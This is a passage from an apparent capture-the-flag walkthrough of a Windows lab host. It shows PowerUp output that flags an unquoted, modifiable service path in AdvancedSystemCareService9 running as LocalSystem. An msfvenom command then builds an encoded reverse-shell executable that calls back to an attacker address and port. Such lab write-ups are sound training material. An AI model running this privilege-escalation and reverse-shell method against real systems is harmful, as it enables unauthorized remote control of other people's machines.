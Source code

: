 meterpreter > powershell_shell
PS > . .\PowerUp.ps1
PS > Invoke-AllChecks

---

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path &lt;HijackPath&gt;
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path &lt;HijackPath&gt;
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

---

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
</pre>
</li>
<li>Since we can restart the service AdvancedSystemCareService9 and it has unquoted service paths, we will create a payload with <code>msfvenom</code>, upload it, move it over to the directory with unquoted service paths and then restart the service. In our attacker machine, we will open up another terminal window and create the payload:
<pre>
ubuntu@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.6.49.162 LPORT=4444 -e x86/shikata_ga_nai -f exe -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe
ubuntu@kali:~# 
</pre></li>
